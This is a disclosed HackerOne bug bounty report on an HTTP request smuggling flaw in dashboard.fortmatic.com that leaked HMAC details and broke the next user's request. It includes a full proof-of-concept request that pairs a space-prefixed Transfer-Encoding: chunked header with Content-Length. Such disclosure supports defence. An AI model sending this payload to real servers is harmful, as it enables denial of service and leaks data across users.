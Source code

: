 # HTTP SMUGGLING EXPOSED HMAC/DOS 

## Report Details
- **Report ID**: 753939
- **URL**: https://hackerone.com/reports/753939
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-08T11:22:11.773Z
- **Disclosed**: 2020-03-24T01:42:24.015Z

## Reporter
- **Username**: pwny_sec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: magic-bbp

## Vulnerability Information
HTTP SMUGGLING EXPOSED HMAC / DOS

Using the transfer-encoding header and following it with a zero. The back end leaked the hmac the back end reflected back the hmac key encryption type, and a lot of details. Further testing had it reflect more headers. [http-smuggling-dashboard-fortmatic.png] we will notice i was able to cause the next valid request to error out returning valuable details. Next picture will show the response being reflected back this is important, i will be devoting time on exploiting this further. 

Proof of Concept

`[space]Transfer-Encoding: chunked`

```
GET /login HTTP/1.1
Host: dashboard.fortmatic.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://dashboard.fortmatic.com/
DNT: 1
Connection: keep-alive
Cookie: ajs_user_id=null; ajs_group_id=null; ajs_anonymous_id=%2217057bde-1957-4ee5-ab69-48f049e806f1%22
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 07 Dec 2019 02:01:47 GMT
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
 Transfer-Encoding: chunked

0


```
